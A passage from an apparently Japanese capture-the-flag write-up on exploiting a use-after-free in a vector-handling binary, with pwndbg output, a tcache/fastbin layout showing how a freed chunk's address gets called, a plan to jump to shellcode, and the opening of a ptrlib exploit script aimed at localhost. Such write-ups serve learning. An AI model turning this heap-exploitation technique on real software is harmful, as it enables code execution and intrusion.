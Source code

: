 また、freeされたvectorをshowしようとすると次のようにNULLになったvtableを参照しようとしていることが分かります。
```
   0x555555555854    mov    rax, qword ptr [rdi]
 ► 0x555555555857    lea    rdx, [rip + 0x5c2]
   0x55555555585e    mov    rax, qword ptr [rax + 0x10]
   0x555555555862    cmp    rax, rdx
...
pwndbg> x/4xg $rdi
0x555555769e70:	0x0000000000000000	0x0000555555769e90
0x555555769e80:	0x0000000000000008	0x0000000000000031
```

前に別のチャンクがfreeされていればここにはヒープのアドレスが記載され、そのアドレス+0x10が参照されることになります。
上の例はtcacheなのでイメージしにくいですが、fastbinではアドレス-0x10がリンクされるので、最終的にはmallocされた場所が参照されます。
ここで、さらに前のチャンクがfreeされていれば`[rax + 0x10]`はそのfreeされたチャンクのアドレスになります。

整理すると、次のようになります。
```
(1)3つmalloc
v1 | vtable1 | array1 |
v2 | vtable2 | array2 |
v3 | vtable3 | array3 |
(2)v3, v2, v2の順にfree
v1 | v2-0x10 | array1 |
v2 | v3-0x10 | array2 |
v3 | NULL    | array3 |
(3) show(v1)
rax <-- [rdi] == v2-0x10
rax <-- [rax+0x10] == v3-0x10
call rax == call v3-0x10
```
ということで、最初にfreeしたやつのアドレス-0x10が呼ばれます。
一見これはチャンクのヘッダに思えますが、チャンクの先頭8バイトは前のチャンクが利用できるので、そこにshellcodeを入れられます。
8バイトのshellcodeは作れないので、別の場所に用意したshellcodeにジャンプする必要があります。

まずはこのコードを動かしてみましょう。
古いlibcはロードできなかったのでdockerを立てました。
```python
from ptrlib import *

def add_vec(index, size, array):
    sock.recvuntil("Your choice:")
    sock.sendline("1")
    sock.recvuntil("Index:")
    sock.sendline(str(index))
    sock.recvuntil("Size:")
    sock.sendline(str(size))
    sock.recvuntil("stop:")
    sock.sendline(' '.join(list(map(str, array))))

def remove_vec(index):
    sock.recvuntil("Your choice:")
    sock.sendline("2")
    sock.recvuntil("index:")
    sock.sendline(str(index))

def show_vec(index):
    sock.recvuntil("Your choice:")
    sock.sendline("4")
    sock.recvuntil("index:")
    sock.sendline(str(index))

sock = Socket("localhost", 9999)
    
add_vec(0, 10, [-1])
add_vec(1, 10, [0, 0, 0, 0, 0, 0, 0, 0, 0x55cccccc, -1])
```
